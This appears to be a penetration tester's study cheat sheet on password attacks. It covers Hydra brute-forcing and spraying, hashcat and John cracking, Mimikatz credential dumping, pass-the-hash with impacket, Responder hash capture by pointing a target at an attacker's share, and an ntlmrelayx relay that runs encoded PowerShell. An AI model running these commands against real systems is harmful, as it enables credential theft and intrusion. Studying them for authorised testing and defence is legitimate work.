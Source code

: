 ```yaml
---
layout: blank
pagetitle: Password Attacks
---
```


## Hydra
- Can be used on a lot of things
- SSH:
	- `sudo hydra -l {username} -P {password_list} -s {port} ssh://{IP}`
	- Lets say we found a password, and want to spray it everywhere (like rdp)
		- `sudo hydra -L {username_list} -p {password} rdp://{IP}`
- HTTP:
	- Provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result
	- `sudo hydra -l {username} -P {password_list} {IP} http-post-form "/{endpoint}:{param1}=^PASS^:Login failed. Invalid"`
		- So, for example: `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:user=admin&password=^PASS^:Login failed. Invalid"`
	- Could also likely just use ffuf (with a filter on size if app returns 200)

## Passwords
- AES is symmetric, RSA is asymmetric
- GPUs crack like a thousand times faster than CPUs

## Finding Passwords
- Just use noseyparker. Can scan file systems, cloned repositories, and even entire github organizations.
    - `noseyparker scan {repo/directory}`
    - `noseyparker scan --github-org={org}`
    - Show results with `noseyparker report`
- Make sure to save or delete the existing `datastore.np` before starting a new scan

## Password Cracking
- Mutating Wordlists:
	- https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file
	- Sometimes wordlists might not match the minimum requirements of a password for a location being tested, so the wordlist can drop all of the unneeded passwords
	- `hashcat -r "$1 c $!" {password_list}` will capitalize the first letter of each password, append "1" to the end of each password, and then append "!" to the end of that password
		- Putting these rules into a file with newlines will create a new password for each newline, adding that lines modifications to that password
		- Hashcat provides some rules in `/usr/share/hashcat/rules/`, like `rockyou-30000`
			- They always seem to use `best64.rule`
	- These modifications can be stored in files and used when cracking--for example:
		- `hashcat -m 0 {hash} {password_list} -r {modification_file} --force`
- Ensure to find the type of hash before cracking to save time
- Extracting hashes:
	- Many methods, but here's a novel one:
		- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` will search for kdbx files (KeePass files) containing hashes
		- keepass2john {keepass_database_file} to extract hash
- Determining hash type:
	- `hashcat --help` will list a lot of info about types of hashes, so if we know where the hash is from, we can look it up here with `hashcat --help | grep -i "{identifier}`
		- This should return the hashcat mode for the hash, which is a number like 13400
- Cracking the hash:
	- `hashcat -m {hashcat_mode (e.g. 13400)} {hash} {wordlist} -r {mutation} --force`
		- Increase speed with `-O -w 4 --opencl-device-types 1,2`

## SSH Private Key Passphrase
- `ssh2john {private RSA SSH key file} > ssh.hash` will put the hash in a crack-able format
- `hashcat -m 22921 ssh.hash {password_list} -r {mutation} --force` will crack the SSH hash
	- 22921 comes from looking up \$6$ in the `hashcat --help` response
	- However, this might result in an error due to this cipher not being supported by hashcat
- John the Ripper 
	- Can handle the error above
	- Can use mutation rules, placed at the end of /etc/john/john.conf
	- `john --wordlist={password_list} --rules=sshRules {hash}` to crack

## NTLM
- NT LAN Manager or Net-NTLMv2
- Windows stores hashed passwords in the Security Account Manager (SAM) database file
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) can extract password hashes from memory as a basic user
	- Prebuilt version [here](https://github.com/gentilkiwi/mimikatz/releases)
	- Can dump plaintext passwords straight as an Administrator
	- Run with `.\mimikatz.exe`
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sukurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
- Crack NTLM
	- `hashcat -m 1000 {hash} {password_list} -r {mutations} --force`
- **Passing NTLM**
	- Don't necessarily need to crack the NTLM hash to use it
		- NTLM hashes aren't salted between sessions and remain static
	- Many tools available:
		- SMB enumeration: `smbclient` and `crackmapexec`
		- Command execution: `impacket` -> `psexec.py\/wmiexec.py`
		- `Mimikatz` can also pass-the-hash
	- Example - accessing SMB share with `smbclient`
		- `smbclient \\\\{IP}\\{SMB_share_endpoint} -U Administrator --pw-nt-hash {hash_from_Mimikatz}`
	- Example2 - getting a shell as an Administrator with `psexec.py`
		- Searches for a writeable share and uploads an exe to it, registers exe as a Windows service and starts it
		- `impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}` 
		- `impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}`
		- `impacket-smbexec -hashes lmhash:nthash {domain}/{user}@{IP}`
		- `impacket-atexec -hashes lmhash:nthash {domain}/{user}@{IP} {command}`
- Cracking Net-NTLMv2
	- Useful when we are an unprivileged user
	- We have the target start authentication against a machine we own, and capture the hash used during the authentication process
	- *Responder* is a good tool for capturing Net-NTLMv2 hashes
		- Sets up an SMB server that handles auth process and prints hashes
		- `sudo responder -I {network interface (like tap0)}` to run responder on any given network interface
	- Getting the target server to contact our server is tricky
		- With RCE, it's easy, just run something like `dir \\{Our_machine_IP}\share` on the machine running the responder server
			- Then, crack the hash with hashcat 5600
		- Without RCE, there are a couple different techniques
			- If there's a file upload on a webserver on the target, we can use a UNC path (`\\{our_IP}\share\xyz)` and the application may try to reach out for the file
				- This might not work if the slashes are the wrong way, so try something like `//{IP}/share.php` as the filename
			- I'd assume local file inclusion would have the same result
	- **Relay Attack**
		- Lets say you're in a situation where you're on a local admin account, but it's an admin on a different machine. Additionally, we can't crack the hash from the admin. 
		- Instead of printing the hash, forward it along using *ntlmrelayx*
		- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {IP} -c "powershell -enc {base64_command}"`
			- This will set up an SMB relay to the IP with a powershell command to run
			- Run SMB `dir` from the machine we own against the *ntlmrelayx* machine, which will immediately pass the hash received onto the target machine